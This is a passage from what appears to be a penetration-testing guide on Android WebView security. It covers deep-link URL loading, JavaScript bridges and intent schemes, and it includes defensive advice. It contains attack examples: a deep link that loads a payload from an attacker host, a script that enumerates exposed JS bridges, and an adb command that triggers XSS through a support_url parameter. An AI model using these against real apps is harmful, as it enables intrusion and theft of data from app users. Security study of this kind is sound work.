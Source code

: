 ```
  -d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"
```
```
If exploitation succeeds, your payload executes JavaScript in the app’s WebView. From there, probe for exposed bridges:

```html
<script>
for (let k in window) {
  try { if (typeof window[k] === 'object' || typeof window[k] === 'function') console.log('[JSI]', k); } catch(e){}
}
</script>
```
```
Defensive guidance
- Canonicalize once; validate strictly against a single source of truth (scheme/host/path/query).
- Only call `setJavaScriptEnabled(true)` after all allowlist checks pass and just before loading trusted content.
- Avoid exposing `@JavascriptInterface` to untrusted origins; prefer per-origin gating.
- Consider per-WebView instances for trusted vs untrusted content, with JS disabled by default.

### **JavaScript and Intent Scheme Handling**

- **JavaScript**: Disabled by default in WebViews, it can be enabled via `setJavaScriptEnabled()`. Caution is advised as enabling JavaScript without proper safeguards can introduce security vulnerabilities.
- **Intent Scheme**: WebViews can handle the `intent` scheme, potentially leading to exploits if not carefully managed. An example vulnerability involved an exposed WebView parameter "support_url" that could be exploited to execute cross-site scripting (XSS) attacks.

![[<../../images/image (1191).png>|Vulnerable WebView]]

Exploitation example using adb:

```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
```
### Javascript Bridge

A feature is provided by Android that enables **JavaScript** in a WebView to invoke **native Android app functions**. This is achieved by utilizing the `addJavascriptInterface` method, which integrates JavaScript with native Android functionalities, termed as a _WebView JavaScript bridge_. Caution is advised as this method allows all pages within the WebView to access the registered JavaScript Interface object, posing a security risk if sensitive information is exposed through these interfaces.

- **Extreme caution is required** for apps targeting Android versions below 4.2 due to a vulnerability allowing remote code execution through malicious JavaScript, exploiting reflection.

#### Implementing a JavaScript Bridge

- **JavaScript interfaces** can interact with native code, as shown in the examples where a class method is exposed to JavaScript:

```javascript
@JavascriptInterface
public String getSecret() {
    return "SuperSecretPassword";
};
```
```
- JavaScript Bridge is enabled by adding an interface to the WebView:

```